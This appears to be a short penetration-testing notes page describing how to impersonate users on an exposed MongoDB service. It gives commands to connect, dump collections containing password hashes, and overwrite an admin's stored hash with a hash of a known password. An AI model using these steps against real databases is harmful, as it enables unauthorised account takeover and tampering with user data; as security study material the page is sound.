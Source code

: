 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# MongoDB - Impersonification via credentials change

Having access to a _MongoDB_ service, it could be possible to change sensitive information for users in a database, for example, change the credentials used in a website such as a login page. Here we found an explanation of this process:

* &#x20;Connect to the database service using [_Mongocli_](../tools-and-utilities.md#mongocli) or [_Mongosh_](../tools-and-utilities.md#mongosh)

{% code overflow="wrap" lineNumbers="true" %}
```bash
mongo --port $serviceport
```
{% endcode %}

***

* Search for database names on the system and connect to the desired one. Then look for the collections inside it, select one considered important, and retrieve sensitive information

{% code overflow="wrap" lineNumbers="true" %}
```bash
use $database;
show collections;
db.$chosenCollection.find(); #For example db.admin.find();
#Example output
{"id": ObjectID("...id..."), "name": "...name...", "email": "...email...", "x_shadow": "...hash...",
...
```
{% endcode %}

***

* Check the password hash, create a new one for a known value using the same encryption/hashing, and update it in the database. Then use the changed credentials to impersonate the user

{% code overflow="wrap" lineNumbers="true" %}
```bash
db.admin.update({ "name": "...name..." }, { $set: { "x_shadow": "$6$9Ter1EZ9$4RCTnLfeDJsdAQ16M5d1d5Ztg2CE1J2IDlbAPSUcqYOoxjEEcpMQag41dtCQv2cJ.n9kvlx46hNT78dngJBVt0" # Example generated hash for Ch4ngeM3VeryQu!ck in SHA512
...
```
{% endcode %}
